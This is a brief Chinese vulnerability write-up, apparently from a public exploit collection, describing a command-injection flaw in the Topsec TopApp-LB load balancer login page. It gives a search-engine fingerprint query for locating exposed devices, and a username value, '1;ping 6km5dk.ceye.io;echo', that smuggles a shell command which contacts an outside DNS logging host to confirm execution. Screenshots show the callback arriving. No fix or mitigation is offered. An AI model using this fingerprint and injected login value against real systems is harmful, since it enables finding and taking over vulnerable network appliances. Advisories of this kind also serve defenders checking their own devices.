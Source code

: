 # 天融信 TopApp-LB 命令执行漏洞

## 漏洞描述

天融信负载均衡TopApp-LB系统存在任意命令执行

## 漏洞影响

```
天融信负载均衡TopApp-LB
```

## 网络测绘

```
app="天融信-TopApp-LB-负载均衡系统"
```

## 漏洞复现

登录界面中存在命令执行



账号:**1;ping 6km5dk.ceye.io;echo**

密码:**任意**



![](./images/202202091921374.png)



成功收到请求



![](./images/202202091921379.png)